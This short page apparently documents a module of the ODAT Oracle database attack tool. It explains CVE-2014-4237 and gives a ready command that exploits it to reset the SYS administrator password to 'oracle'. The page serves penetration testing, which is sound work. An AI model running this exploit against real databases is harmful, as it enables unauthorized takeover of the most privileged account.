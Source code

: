 # Exploit some _local_ CVE

This module can be used to exploit these following CVE:
* [CVE-2014-4237](https://twitter.com/gokhanatil/status/595853921479991297): A user authenticated can modify all tables who can select even if he has not the privilege to modify them normally (no ALTER privilege).

For example, the following command can be used to set the SYS's password:
```bash
./odat.py  cve  -s $HOST -d $SID -U $LOGIN -P $PASSWORD --set-pwd-2014-4237 'SYS' 'oracle' 
```
With this command, the SYS's password is 'oracle' now. The __database must be restarted__ in order to the __database reloads__ hashes!